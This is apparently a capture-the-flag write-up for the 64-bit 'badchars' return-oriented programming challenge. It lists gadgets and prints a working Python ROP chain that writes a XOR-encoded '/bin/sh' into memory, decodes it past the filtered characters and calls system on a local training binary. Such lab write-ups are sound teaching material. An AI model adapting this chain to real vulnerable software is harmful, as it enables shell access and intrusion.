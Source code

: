 # badchars - 64 bit

we are progressing in the series and the challanges are becoming more interesting.  
     
this time we have to deal with badchars.
    
badchars are characters that will not appear in memory the way we expect them to     
and therefore will cause unexpected behaviour.    
     
for example: a null byte is the most common bad char as it will usually(not in this challange though) terminate strings. 
    
we are granted with a list of bad chars when we execute the binary. 
    
![begin](https://user-images.githubusercontent.com/60041914/78296351-3a98d600-7536-11ea-99f1-b680518e923f.png)
   
when checking out the gadgets we should look for ways to bypass this constraint.    
it's time to get creative.     
looking around I find these gadgets useful:  
```assembly_x86
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b39 : pop rdi ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
```
   
you might understand what I'm getting at just by looking at them.    
my plan is to place a string in memory("/bin/sh")    
whose bad chars are xored with a key and then xor these same chars again.    

plan in detail:    
1.xor the bad chars in our string with a key      
2.use "pop r12 ; pop r13 ; ret" to set r12 to the string, r13 the desired address           
3.use "mov qword ptr [r13], r12 ; ret" to write the string to memory        
preform step 4,5 for each xored char:       
4.use "pop r14 ; pop r15 ; ret" to set r14 to the key,r15 to the address of the char           
5.use "xor byte ptr [r15], r14b ; ret" to xor them       
6.use "pop rdi ; ret" to point rdi to our decrypted string in memory      
7.call system    
8.profit????    
     
the rop chain looks like this:   
```python
bad_chars=['b', 'i', 'c', '/' ,' ','f','n','s']

CALL_SYSTEM=0x004006f0
STR_ADDR=0x00601100
SET_RDI=0x00400b39
SET_XOR_REGS = 0x00400b40
XOR_BYTES=0x00400b30
SET_REGS=0x00400b3b
WRITE_MEM=0x00400b34

xor_key=0x12

def write_str(s,addr,exp):
    #write 8 byte string with bad chars
    exp+=p64(SET_REGS)
    s=list(s)
    xored_s=[chr(ord(ch)^xor_key) if ch in bad_chars else ch for ch in s]
    exp+="".join(xored_s)
    exp+=p64(addr)
    exp+=p64(WRITE_MEM)
    for ch in s:
        if ch in bad_chars:
            exp+=p64(SET_XOR_REGS)
            exp+=chr(xor_key)+"\x00"*7
            exp+=p64(addr)
            exp+=p64(XOR_BYTES)
        addr+=1

    return exp

r=process("./badchars")
exploit=b'A'*40
exploit=write_str("/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)
```
    
it works!     
![sof](https://user-images.githubusercontent.com/60041914/78296354-3bca0300-7536-11ea-987b-6d79073ae313.png)
